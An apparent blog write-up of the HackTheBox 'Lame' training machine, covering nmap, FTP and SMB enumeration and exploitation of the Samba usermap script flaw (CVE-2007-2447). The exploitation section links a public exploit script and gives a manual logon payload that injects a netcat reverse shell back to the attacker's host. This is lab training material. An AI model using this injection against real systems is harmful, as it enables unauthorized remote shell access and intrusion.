 ```yaml
---
title: "HackTheBox - Lame"
last_modified_at: 2022-10-30
categories:
  - HTB
tags:
  - HTB
  - HackTheBox
  - Lame
---
```


![image](https://user-images.githubusercontent.com/66146701/198893776-498049cc-5b35-473d-9f3b-e78b08718151.png)

<p>
Machine Author: ch4p
<br>
  Difficulty: ​Easy
</p>
<p>
Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first
machine published on Hack The Box.
</p>

## Enumeration

Nmap Scan :

```
sudo nmap -Pn -A -p- 10.129.5.88
```
![image](https://user-images.githubusercontent.com/66146701/198893885-1d1aaa1f-a029-4dbd-aed4-384cf6155e47.png)


## FTP - TCP 21
```
ftp 10.129.5.88
```
ftp `anonymous` login allowed. but the directory was empty.

![image](https://user-images.githubusercontent.com/66146701/198893936-ffefb244-3c7a-49b6-8eb2-468a8776cc64.png)

<p>
Vsftpd 2.3.4 does have a built-in backdoor,however it is not exploitable in this instance.
</p>

## SMB - TCP 445
<u>Anonymous Login</u>

`smbmap` shows that I can access `tmp` share without credentials:

![image](https://user-images.githubusercontent.com/66146701/199073208-372b3785-1315-4a0f-beaf-fe6a3e02eaab.png)

![image](https://user-images.githubusercontent.com/66146701/199073629-126625b0-db1d-4866-8bce-a83199ed159e.png)

but there’s nothing interesting in it.

## Exploits

![image](https://user-images.githubusercontent.com/66146701/198894058-cd41b4ba-3040-41f6-995c-a6e5eebc733c.png)

![image](https://user-images.githubusercontent.com/66146701/198894064-a55a1d1e-eb49-4392-bce9-40670f267627.png)

<p>
  This is CVE-2007-2447, often referred to as Samba usermap script.
</p>  

## VSFTPD Exploit

### Without Metasploit (Using Python Script)

[https://github.com/k4u5h41/CVE-2007-2447.git](https://github.com/k4u5h41/CVE-2007-2447.git)

```
python3 smb3.0.20.py -lh 10.10.14.14 -lp 4444 -t 10.129.8.97
```

![image](https://user-images.githubusercontent.com/66146701/198894102-bf204cf9-5105-413d-8df5-b455f0a0e680.png)


### Without Metasploit (Manually)

```
logon "./=`nohup nc -e /bin/bash 10.10.14.9 4444`"
```
<p>
logon:- it is used to login into smb
nohup:-run a command immune to hangups, with output to a non-tty
</p>

![image](https://user-images.githubusercontent.com/66146701/199076791-0d52c274-8128-4ff9-b64c-e8614585dc99.png)

## With Metasploit

<p>We can also do this with Metasploit.</p>

![image](https://user-images.githubusercontent.com/66146701/199078960-f3c25de3-86f8-4dd3-99a3-2306ce9e7726.png)


